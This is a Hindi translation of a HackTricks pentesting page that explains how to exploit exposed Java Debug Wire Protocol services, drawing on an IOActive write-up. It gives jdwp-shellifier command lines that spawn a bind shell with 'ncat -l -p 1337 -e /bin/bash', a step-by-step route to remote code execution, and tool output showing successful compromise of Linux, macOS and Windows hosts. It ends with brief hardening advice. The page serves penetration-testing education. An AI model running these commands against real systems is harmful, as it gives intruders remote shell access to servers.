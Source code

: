 # JDWP पेंटेस्टिंग - जावा डीबग वायर प्रोटोकॉल

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family)
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)** का** **अनुसरण** **करें।**
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को।**

</details>

## शोषण

आप [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) में स्थित पायथन शोषण का उपयोग कर सकते हैं।
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
मैंने यह पाया है कि `--break-on 'java.lang.String.indexOf'` का उपयोग करने से एक्सप्लॉइट और **स्थिर** हो जाता है। और यदि आपके पास मेजबान पर एक बैकडोर अपलोड करने और उसे एक कमांड के बजाय निष्पादित करने का मौका होता है, तो एक्सप्लॉइट और भी स्थिर हो जाएगा।

सामान्यतः इस डीबगर को पोर्ट 8000 पर चलाया जाता है और यदि आप पोर्ट के साथ एक TCP कनेक्शन स्थापित करते हैं और "**JDWP-Handshake**" भेजते हैं, तो सर्वर आपको वही स्ट्रिंग उत्तर देना चाहिए।\
इसके अलावा, आप नेटवर्क में इस स्ट्रिंग की जांच कर सकते हैं और संभावित JDWP सेवाओं को खोज सकते हैं।

**प्रक्रियाओं की सूची**, यदि आपको किसी **जावा प्रक्रिया** में "**jdwk**" स्ट्रिंग मिलती है, तो संभावतः उसमें \*\*जावा डीबग वायर्ड प्रोटोकॉल \*\*सक्रिय हो गया है और आप लेटरली या यहां तक ​​कि **वृद्धि अधिकार** (यदि रूट के रूप में निष्पादित किया जाए) कर सकते हैं।

## अधिक विवरण

**कॉपी किया गया** [**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)

### **जावा डीबग वायर्ड प्रोटोकॉल**

**जावा प्लेटफ़ॉर्म डीबग आर्किटेक्चर (JPDA)**: JDWP जावा डीबगिंग सिस्टम के एक घटक है, जिसे जावा प्लेटफ़ॉर्म डीबग आर्किटेक्चर (JPDA)\[2] कहा जाता है। निम्नलिखित एक सारणी में विस्तृत आर्किटेक्चर दिखाई गई है:

[![](https://ioactive.com/wp-content/uploads/2014/04/jdpa.png)](https://ioactive.com/wp-content/uploads/2014/04/jdpa-1.png)

डीबगी में हमारे लक्षित एप्लिकेशन चलाने वाला एक मल्टी-थ्रेडेड JVM होता है। दूरस्थ डीबग करने के लिए, JVM इंस्टेंस को व्यापक रूप से -Xdebug विकल्प के साथ शुरू करना होता है, साथ ही -Xrunjdwp (या -agentlib) विकल्प का उपयोग करना होता है। उदाहरण के लिए, रिमोट डीबगिंग सक्षम करके एक टॉमकैट सर्वर शुरू करने के लिए यह देखने की तरह होगा:

[![](https://ioactive.com/wp-content/uploads/2014/04/tomat.png)](https://ioactive.com/wp-content/uploads/2014/04/tomat-1.png)

आर्किटेक्चर डायग्राम में दिखाए गए रूप में, जावा डीबग वायर्ड प्रोटोकॉल डीबगर और JVM इंस्टेंस के बीच केंद्रीय लिंक है। प्रोटोकॉल के बारे में अवलोकन निम्नलिखित हैं:

* यह एक पैकेट-आधारित नेटवर्क बाइनरी प्रोटोकॉल है।
* यह अधिकांशतः समकालिक है। डीबगर JDWP पर एक कमांड भेजता है और एक जवाब प्राप्त करने की उम्मीद करता है। हालांकि, कुछ कमांड, जैसे इवेंट्स, समकालिक प्रतिक्रिया की उम्मीद नहीं करते हैं। वे एक जवाब भेजेंगे जब विशेष स्थितियाँ पूरी हो जाएं। उदाहरण के लिए, ब्रेकपॉइंट एक इवेंट है।
* इसमें प्रमाणीकरण का उपयोग नहीं होता है।
* इसमें एन्क्रिप्शन का उपयोग नहीं होता है।

इन सभी अवलोकनों का पूरा संगठन एक डीबगिंग प्रोटोकॉल के बारे में बात कर रहा है। हालांकि, जब ऐसी सेवा एक शत्रुतापूर्ण नेटवर्क के सामने रखी जाती है, या इंटरनेट के सामने होती है, तो चीजें गलत हो सकती हैं।\
\
**हैंडशेक**: JDWP निर्दिष्ट करता
JDWP आपको मेमोरी में मौजूद वस्तुओं तक पहुंचने और उन्हें आवंटित करने की अनुमति देता है, इसके अलावा यह आपको डेटा बनाने या ओवरराइट करने की भी अनुमति देता है।

* VirtualMachine/CreateString आपको एक स्ट्रिंग को JVM रनटाइम में रहने वाले java.lang.String में बदलने की अनुमति देता है।
* VirtualMachine/RedefineClasses आपको नई क्लास परिभाषाओं को स्थापित करने की अनुमति देता है।

**"सभी आपके JDWP हमारे हैं"**

जैसा कि हमने देखा है, JDWP जीवीएम मेमोरी में अनिश्चित कक्षाओं को लोड करने और पहले से मौजूद और / या नई लोड बाइटकोड को आवंटित करने के लिए निर्मित आदेश प्रदान करता है। अगला अनुभाग पायथन में उपयोग के लिए उपयोग करने वाले एक JDI फ्रंट एंड का आंशिक अमलीकरण के रूप में व्यवहार करने वाले उत्पादन को कवर करेगा, ताकि यह संभव हो सके। इस स्वतंत्र उत्पाद लिखाने का मुख्य कारण यह है कि, एक पेंटेस्टर के रूप में, मुझे "हेड-शॉट" उत्पादों पसंद हैं। अर्थात, जब मुझे यकीन होता है कि एक वातावरण / एप्लिकेशन / प्रोटोकॉल संवर्धनशील है, तो मेरे पास तत्परता से इसका उपयोग करने के लिए अपना उपकरण होना चाहिए (अर्थात, अब तक बस एक प्रमाणिकरण ही मौजूद था)। तो अब जब हमने सिद्धांत को कवर कर लिया है, तो अब व्यावहारिक अमलीकरण में आते हैं। खुले JDWP सेवा के सामने आने पर, अनिश्चित आदेश निष्पादन केवल पांच कदम दूर हैं (या इस उत्पाद के साथ, केवल एक कमांड लाइन दूर हैं)। यहां यह कैसे होगा: 1. जावा रनटाइम संदर्भ प्राप्त करेंजीवीएम अपने संदर्भों के माध्यम से वस्तुओं को बदलता है। इसलिए, हमारे उत्पाद को पहले जावा.लैंग.रनटाइम कक्षा के संदर्भ को प्राप्त करना होगा। इस कक्षा से, हमें getRuntime() विधि के संदर्भ की आवश्यकता है। इसे उपयोग करने के लिए, हमें सभी कक्षाओं (AllClasses पैकेट) और हम जिस कक्षा की तलाश कर रहे हैं, उस कक्षा में सभी विधियों (ReferenceType/Methods पैकेट) को प्राप्त करना होगा। 2. ब्रेकपॉइंट सेटअप करें और सूचना के लिए प्रतीक्षा करें (असिंक्रोनस कॉल)यह हमारे उत्पाद की कुंजी है। अनिश्चित कोड को निष्पादित करने के लिए, हमें एक चल रहे थ्रेड संदर्भ में होने की आवश्यकता होती है। इसे करने के लिए, एक हैक यह है कि एक ऐसे विधि पर ब्रेकपॉइंट सेटअप करना है जिसे ज्ञात होने पर रनटाइम में बुलाया जाता है। पहले ही देखा गया है कि JDI में एक ब्रेकपॉइंट एक असिंक्रोनस घटना है जिसका प्रकार BREAKPOINT (0x02) पर सेट किया जाता है। जब हिट होता है, तो जीवीएम हमारे डीबगर को एक इवेंटडेटा पैकेट भेजता है, जिसमें हमारा ब्रेकपॉइंट आईडी, और अधिक महत्वपूर्ण रूप से, उस थ्रेड के संदर्भ को शामिल होता है।\
\


<figure><img src="https://ioactive.com/wp-content/uploads/2014/04/event_break.png" alt=""><figcaption></figcaption></figure>

इसलिए यह एक अच्छा विचार है कि इसे एक आमतौर पर बुलाए जाने वाली विधि पर सेट किया जाए, जैसे java.net.ServerSocket.accept(), जिसे नई नेटवर्क कनेक्शन प्राप्त करने पर बहुत ही संभावित रूप से बुलाया जाता है। हालांकि, ध्यान देना चाहिए कि यह किसी भी विधि हो सकती है जो रनटाइम में मौजूद होती है। 3. पेलोड को निष्पादित करने के लिए रनटाइम में एक जावा स्ट्रिंग ऑब्जेक्ट का आवंटनहम जीवीएम रनटाइम में कोड निष्पादित करेंगे, इसलिए हमारे सभी मानिपुरेटेड डेटा (जैसे स्ट्रिंग) को जीवीएम रनटाइम में मौजूद होना चाहिए (अर्थात, एक रनटाइम संदर्भ होना चाहिए)। इसे बहुत आसानी से एक CreateString कमांड भेजकर किया जाता है।

<figure><img src="https://ioactive.com/wp-content/uploads/2014/04/Untitled.png" alt=""><figcaption></figcaption></figure>

4. ब्रेकपॉइंट संदर्भ से रनटाइम ऑब्जेक्ट प्राप्त करेंइस बिंदु पर हमें एक सफल, विश्वसनीय शोषण के लिए लगभग सभी तत्व हमें चाहिए होते हैं। जो हमें चाहिए एक रनटाइम ऑब्जेक्ट संदर्भ है। इसे प्राप्त करना आसान है, और हम आसानी से जीवीएम रनटाइम में java.lang.Runtime.getRuntime() स्थायी विधि[8] को निष्पादित करके प्राप्त कर सकते हैं, एक ClassType/InvokeMethod पैकेट भेजकर और रनटाइम कक्षा और थ्रेड संदर
```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.9
[+] Targeting ‘192.168.2.9:8000’
[+] Reading settings for ‘Java HotSpot(TM) 64-Bit Server VM – 1.6.0_65’
[+] Found Runtime class: id=466[+] Found Runtime.getRuntime(): id=7facdb6a8038
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’## Here we wait for breakpoint to be triggered by a new connection ##
[+] Received matching event from thread 0x8b0
[+] Found Operating System ‘Mac OS X’
[+] Found User name ‘pentestosx’
[+] Found ClassPath ‘/Users/pentestosx/Desktop/apache-tomcat-6.0.39/bin/bootstrap.jar’
[+] Found User home directory ‘/Users/pentestosx’
[!] Command successfully executed
```
एक ही कमांड लाइन, लेकिन एक Windows सिस्टम के खिलाफ और पूरी तरह से अलग तरीके से तोड़ना:
```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –break-on ‘java.lang.String.indexOf’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘Java HotSpot(TM) Client VM – 1.7.0_51’
[+] Found Runtime class: id=593
[+] Found Runtime.getRuntime(): id=17977a9c
[+] Created break event id=2
[+] Waiting for an event on ‘java.lang.String.indexOf’
[+] Received matching event from thread 0x8f5
[+] Found Operating System ‘Windows 7’
[+] Found User name ‘hugsy’
[+] Found ClassPath ‘C:UsershugsyDesktopapache-tomcat-6.0.39binbootstrap.jar’
[+] Found User home directory ‘C:Usershugsy’
[!] Command successfully executed
```
हम अपने एक्सप्लॉइट को निष्पादित करते हैं ताकि एक बाइंड शेल उत्पन्न हो सके जिसमें पेलोड "ncat -e /bin/bash -l -p 1337" हो, एक लिनक्स सिस्टम के खिलाफ:
```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –cmd ‘ncat -l -p 1337 -e /bin/bash’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘OpenJDK Client VM – 1.6.0_27’
[+] Found Runtime class: id=79d
[+] Found Runtime.getRuntime(): id=8a1f5e0
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’
[+] Received matching event from thread 0x82a[+] Selected payload ‘ncat -l -p 1337 -e /bin/bash’
[+] Command string object created id:82b
[+] Runtime.getRuntime() returned context id:0x82c
[+] found Runtime.exec(): id=8a1f5fc[+] Runtime.exec() successful, retId=82d
[!] Command successfully executed Success, we now have a listening socket!
root@pwnbox:~/apache-tomcat-6.0.39# netstat -ntpl | grep 1337
tcp        0      0 0.0.0.0:1337         0.0.0.0:*               LISTEN      19242/ncat
tcp6       0      0 :::1337              :::*                    LISTEN      19242/ncat
```
अंतिम उत्पादन उन तकनीकों का उपयोग करता है, कुछ जांचें जोड़ता है और सस्पेंड/रिज्यूम संकेत भेजता है ताकि अधिक से अधिक व्यवधान न हो (आपके काम कर रहे एप्लिकेशन को तोड़ना सबसे अच्छा होता है, सही है ना?). इसके दो मोड होते हैं:

* "डिफ़ॉल्ट" मोड पूरी तरह से अनुरोधरहित होता है और सिर्फ़ जावा कोड को निष्पादित करता है ताकि स्थानीय सिस्टम जानकारी प्राप्त की जा सके (ग्राहक को PoC के लिए उत्कृष्ट है)।
* "cmd" विकल्प पारिस्थितिकी उपकरण पर एक सिस्टम कमांड निष्पादित करता है और इसलिए अधिक व्यापक होता है। यह कमांड JVM के साथ चल रहे अधिकारों के साथ किया जाता है।

यह उत्पादन स्क्रिप्ट सफलतापूर्वक टेस्ट किया गया था:

* Oracle Java JDK 1.6 और 1.7
* OpenJDK 1.6
* IBM JDK 1.6

जैसा कि जावा डिज़ाइन के अनुसार प्लेटफ़ॉर्म-स्वतंत्र है, इसलिए जावा द्वारा समर्थित किसी भी ऑपरेटिंग सिस्टम पर कमांड निष्पादित किए जा सकते हैं। यह वास्तव में हमारे लिए अच्छी खबर है: खुली JDWP सेवा विश्वसनीय RCE का मतलब है। अब तक, सब ठीक है।

### वास्तविक जीवन में शोध के बारे में क्या?

वास्तव में, JDWP जावा एप्लिकेशन दुनिया में काफी उपयोग होता है। हालांकि, रिमोट मूल्यांकन करते समय पेंटेस्टर्स इसे इतनी बार नहीं देखेंगे क्योंकि फ़ायरवॉल्स इसे अधिकांशतः ब्लॉक कर देंगे (और करना चाहिए)। लेकिन यह यह नहीं कि JDWP जंगली में नहीं पाया जा सकता है:

* इस लेख को लिखने के समय, ShodanHQ\[4] पर त्वरित खोज ज्ञात करती है कि लगभग 40 सर्वर JDWP हैंडशेक भेज रहे हैं:

![](https://ioactive.com/wp-content/uploads/2014/04/shodan.png)

यह वास्तव में एक दिलचस्प खोज है क्योंकि, जैसा कि हमने पहले देखा है, यह ग्राहक-पक्ष (डिबगर) होता है जो संवाद प्रारंभ करता है।

* GitHub\[7] भी कई संभावित भेद्य ओपन-सोर्स एप्लिकेशनों की संख्या दिखाता है:

![](https://ioactive.com/wp-content/uploads/2014/04/github.png)

* विशेष पोर्ट (tcp/8000, tcp/8080, tcp/8787, tcp/5005) के लिए इंटरनेट की खोज करने के लिए masscan कई होस्ट (जिनकी रिपोर्ट यहां नहीं की जा सकती है) को प्रतिक्रिया देता है।
* "एंटरप्राइज" एप्लिकेशनों को जंगली में एक JDWP सेवा चलाई गई थी \*डिफ़ॉल्ट रूप से\* (वास्तविक पोर्ट नंबर को जिज्ञासु पाठक के लिए छोड़ दिया गया है)।

इंटरनेट पर खुली JDWP सेवाओं की खोज करने के कुछ तरीके हैं। यह एक अच्छा याददाश्त है कि एप्लिकेशनों को नियमित रूप से सुरक्षा समीक्षा से गुजरना चाहिए, उत्पादन पर्यावरणों में किसी भी डिबगिंग कार्यक्षमता को बंद कर दिया जाना चाहिए, और फ़ायरवॉल को सामान्य चलन के लिए आवश्यक सेवाओं तक पहुंच को प्रतिबंधित करना चाहिए। किसी को एक JDWP सेवा से कनेक्ट करने की अनुमति देना एक gdbserver सेवा के साथ कनेक्शन की अनुमति देने के बराबर है (जो एक अधिक स्थिर तरीके में हो सकता है)। मुझे आशा है कि आपने JDWP के साथ खेलने के तरीके के साथ इस लेख का आनंद लिया होगा। सभी महान समुद्री डाकूओं को, खुश JDWP pwning !!

**धन्यवाद**\
\
मैं इल्जा वैन स्प्रुंदेल और सेबस्टियन मैके को उनके विचारों और परीक्षणों के लिए धन्यवाद देना चाहूंगा।

### **संदर्भ
